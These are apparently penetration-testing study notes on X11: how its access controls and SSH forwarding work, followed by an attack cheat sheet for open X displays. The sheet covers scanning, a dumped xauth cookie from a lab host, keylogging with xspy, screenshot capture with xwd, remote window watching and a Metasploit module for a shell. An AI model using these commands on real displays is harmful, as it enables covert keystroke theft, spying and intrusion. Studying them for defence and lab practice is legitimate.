\chapter{X11}

\section{Introduction}

X uses a client–server model. An X server program runs on a computer with a
graphical display and communicates with various client programs. The X server
acts as a go-between for the user and the client programs, accepting requests
on TCP port 6000 for graphical output (windows) from the client programs and
displaying them to the user (display), and receiving user input (keyboard,
mouse) and transmitting it to the client programs.

In X, the server runs on the user's computer, while the clients may run on
remote machines. 

\subsection{Some clients}
\subsubsection{Window manager}
A window manager is a program that controls the general appearance of windows
and other graphical elements of the graphical user interface. 

The window manager takes care of deciding the position of windows, placing the
decorative border around them, handling icons, handling mouse clicks outside
windows (on the “background”), handling certain keystrokes, etc.


\subsubsection{Session manager}

Roughly, the state of a session is the “state of the desktop” at a given time:
a set of windows with their current content. More precisely, it is the set of
applications managing these windows and the information that allow these
applications to restore the condition of their managed windows if required. A
program known as the X session manager saves and restores the state of
sessions.

Using a session manager permits a user to log out from an interactive session but to find exactly the same windows in the same state when logging in again. 

Somme sessions managers: xsmi, ksmserver, xfce4-session, gnome-session.

\subsubsection{X display manage}

The program known as the X display manager shows the graphical login prompt in
the X Window System. More generally, a display manager runs one or more X
servers on the local computer or accepts incoming connections from X servers
running on remote computers.
The local servers are started by the display manager, which then connects to
them to present the user the login screen. The remote servers are started
independently from the display manager and connect to it. 
In this situation, the display manager works like a graphical telnet server: an
X server can connect to the display manager, which starts a session; the
applications which utilize this session run on the same computer of the display
manager but have input and output on the computer where the X server runs
(which may be the computer in front of the user or a remote one).

The X Window System ships with XDM as the basic supplied display manager. Other
display managers include GDM (GNOME), KDM/SDDM (KDE), WDM and entrance.


\subsection{Display}

In X11, a display refers to a group of display devices which an X Server can
directly send and receive graphical data. An X Display is generally made up of
at least one screen, keyboard, and pointer device. In this context, a screen is
not a physical monitor, rather a virtual canvas which can read raw graphical
data. In practice a single screen can be made up of multiple monitors and other
virtual displays.

X Client Programs use the \verb+$DISPLAY+ variable, which looks like
\verb+hostname:display_number.screen_number+, to determine which X Display to
connect to. An X Program can derive a tcp or unix socket from this value to
form a connection to the display through the X Server. Once the connection is
accepted, the X Server forwards the connection to the requested screen.

The \verb+$DISPLAY+ variable has some hidden rules that can be a bit confusing.
First of all, the display number must always be explicitly set, while the
hostname and screen number will default to \verb+device_name/unix+ and \verb+0+
respectively. As a result, \verb+:0+ is actually \verb+device_name/unix:0.0+,
and the two values will be treated identically. 

\subsection{Security}

There are five standard access control mechanisms that control whether a client application can connect to an X display server. They can be grouped in three categories:
\begin{itemize}
    \item access based on host
    \item access based on cookie
    \item access based on user
\end{itemize}

Additionally, like every other network connection, tunneling can be used. 

\subsubsection{Host-based access}

he host-based access method consists in specifying a set of hosts that are
authorized to connect to the X display server. This system has inferior
security, as it allows every user who has access to such a host to connect to
the display. The \verb+xhost+ program and three X Window System core protocol
requests are used to activate this mechanism and to display and change the list
of authorized hosts. Improper use of \verb+xhost+ can inadvertently give every
host on the Internet full access to an X display server.

\subsubsection{Cookie-based access}
The cookie-based authorization methods are based on choosing a magic cookie
and passing it to the X display server when it is started; every client that
can prove having knowledge of this cookie is then authorized connecting to the
server.

These cookies are created by a separate program (\verb+xauth+) and stored in
the file \verb+.Xauthority+ in the user's home directory, by default. As a
result, every program run by the client on the local computer can access this
file. If the user wants to run a program from another computer on the network,
the cookie has to be copied to that other computer. 

The two systems using this method are \verb+MIT-MAGIC-COOKIE-1+ and
\verb+XDM-AUTHORIZATION-1+. In the first method, the client simply sends the
cookie when requested to authenticate. In the second method, a secret key is
also stored in the \verb+.Xauthority+ file. The client creates a string by
concatenating the current time, a transport-dependent identifier, and the
cookie, encrypts the resulting string, and sends it to the server. 

Unfortunately, these permissions are not fine-grained but rather split
up into only two categories; trusted and untrusted. A cookie with trusted
permissions will provide unmitigated access to the X Server, while an untrusted
cookie will restrict permissions, such as restricting the program to only its
own window and denying access to the clipboard.

Using the \verb+xauth+ program, you can add and generate cookies in an X Server and
save them to disk to \verb+$XAUTHORITY+ if set, or \verb+~/.Xauthority+
otherwise. When you run an X Program, it will retrieve X Auth data for the
requested display from \verb+$XAUTHORITY+ or \verb+~/.Xauthority+, and provide
the X Auth data when connecting to the X Server in order to be authenticated.

One thing you should know is that if an {\bf X Program cannot find any X Auth data
for the requested display, it will form the connection without X Auth data. The
X Server will just accept the connection anyways and uses its default insecure
connection method}. This means that it is the sole responsibility of the X
Program to enforce its own authentication and authorization, rather than the X
Server enforcing it. For this reason, {\bf xauth is usually used alongside other
access control systems, such as xhost, to prevent untrusted X Clients from even
attempting to connect to the X Server}.

\begin{figure}
  
\includegraphics[width=\linewidth]{network/x11/images/x11-program.png}
  \caption{X11 programs}
  \label{fig:x11-programs}
\end{figure}

\subsubsection{User-based access}
The user-based access methods work by authorizing specific users to connect to
the server. When a client establishes a connection to a server, it has to prove
being controlled by an authorized user.

The two methods based on authenticating users using networked identity
management systems are \verb+SUN-DES-1+ and \verb+MIT-KERBEROS-5+. The first
system is based on a secure mechanism of the ONC remote procedure call system
developed in SunOS. The second mechanism is based on both client and server
trusting a Kerberos server.

A third method is limited to local connections, using system calls to ask the
kernel what user is on the other end of a local socket. The \verb+xhost+
program can be used to add or remove localuser and localgroup entries with this
method.

\subsection{Network}
Network traffic between an X server and remote X clients is not encrypted by
default. An attacker with a packet sniffer can intercept it, making it possible
to view anything displayed to or sent from the user's screen. The most common
way to encrypt X traffic is to establish a Secure Shell (SSH) tunnel for
communication.

\subsubsection{old fashion}

expose the X port and open firewall

set \verb+.Xauthority+ and run

\subsubsection{X11 forwarding}
SSH can initiate a secure tunnel.

Starting an X11 tunnel:
\begin{verbatim}
    ssh -X -C username@hostname
\end{verbatim}

The \verb+-X+ option activates X11 forwarding, and the \verb+-C+ options
activates compression. Once the connection is established, any X11 application
can be started from the command line.

The \verb+-X+ option is explicitly used with the ssh command. It's possible to
make this behavour default with a \verb+ForwardX11 yes+ line in
\verb+/etc/ssh/ssh_config+, but this is NOT recommended. That setting
automatically opens the display to all remote systems clients are connected
with.


On the server (on witch client application are running) To enable X11
forwarding, the \verb+X11Forwarding+ setting needs to be changed in
\verb+/etc/ssh/sshd_config+. The settings require a restart of the SSH server.

Enabling X11 tunnels: \verb+/etc/ssh/sshd_config+
\begin{verbatim}
    X11Forwarding yes
    X11DisplayOffset 10  # this value is the default
    X11UseLocalhost yes  # this value is the default
\end{verbatim}

\begin{figure}
  
\includegraphics[width=\linewidth]{network/x11/images/x11-forwarding-setup.png}
  \caption{X11 forwarding setup}
  \label{fig:x11-forwarding-setup}
\end{figure}

\begin{figure}
  
\includegraphics[width=\linewidth]{network/x11/images/x11-forwarding-program.png}
  \caption{X11 forwarding programs}
  \label{fig:x11-forwarding-program}
\end{figure}

The SSH utility (when invoked with option -X or option ForwardX11) tunnels X11
traffic from remotely invoked clients to the local server. It does so by
setting at the remote site the \verb+$DISPLAY+  to point to a local TCP socket
opened there by sshd, which then tunnels the X11 communication back to ssh.
Sshd then also calls \verb+xauth+ to add at the remote site an
\verb+MIT-MAGIC-COOKIE-1+ string into \verb+.Xauthority+ there, which then
authorizes X11 clients there to access the ssh user's local X server. 


\subsubsection{Using XDMCP}



\section{Footprinting}

\begin{verbatim}
PORT       STATE   SERVICE
6000/tcp   open    X11
\end{verbatim}

\section{Enumeration}

on local:
\begin{verbatim}
$ who
ross tty7

$ w
 05:55:03 up  2:19,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               03:35    2:19m 13.83s  0.07s /usr/libexec/gnome-session-binary --systemd --session=gnome
\end{verbatim}

\begin{verbatim}
nmap -sV --script x11-access -p <PORT> <IP>
msf> use auxiliary/scanner/x11/open_x11
\end{verbatim}

\subsection{nmap additionals scripts}

\url{https://github.com/sensepost/x11-active-displays}

\section{authentication}
\subsection{xhost}

\subsection{xauth}

\begin{verbatim}
$ xauth -f .Xauthority 
Using authority file .Xauthority
xauth> list
squashed.htb/unix:0  MIT-MAGIC-COOKIE-1  04f643e487e99a3ebb2d6a1c5e27dc31
\end{verbatim}


\section{Verfy Connection}
\begin{verbatim}
xdpyinfo -display <ip>:<display>
xwininfo -root -tree -display <IP>:<display> 
#Ex: xwininfo -root -tree -display 10.5.5.12:0
\end{verbatim}

\section{Keyloggin}

\href{http://tools.kali.org/sniffingspoofing/xspy}{xspy}

\begin{verbatim}
xspy 10.9.xx.xx

opened 10.9.xx.xx:0 for snoopng
swaBackSpaceCaps_Lock josephtTabcBackSpaceShift_L workShift_L 2123
qsaminusKP_Down KP_Begin KP_Down KP_Left KP_Insert TabRightLeftRightDeletebTabDownnTabKP_End KP_Right KP_Up KP_Down KP_Up KP_Up TabmtminusdBackSpacewinTab
\end{verbatim}


\section{Screenshots capturing}

\begin{verbatim}
xwd -root -screen -silent -display <TargetIP:0> > screenshot.xwd
convert screenshot.xwd screenshot.png
\end{verbatim}

\section{Remote Desktop View}
\subsection{xrdp.py}

\begin{verbatim}
./xrdp.py <IP:0>
\end{verbatim}

See~\href{https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref}{Exploiting
X11 unauthenticated access}

\subsection{xwatchwin}
First we need to find the ID of the window using xwininfo
\begin{verbatim}
xwininfo -root -display 10.9.xx.xx:0

xwininfo: Window id: 0x45 (the root window) (has no name)

...SNIP...
\end{verbatim}


\begin{verbatim}
./xwatchwin [-v] [-u UpdateTime] DisplayName { -w windowID | WindowName } -w window Id is the one found on xwininfo
./xwatchwin 10.9.xx.xx:0 -w 0x45
\end{verbatim}


\section{Get Shell}

\subsection{Metasploit}
\begin{verbatim}
msf> use exploit/unix/x11/x11_keyboard_exec
\end{verbatim}


\subsection{xrdpi.py}

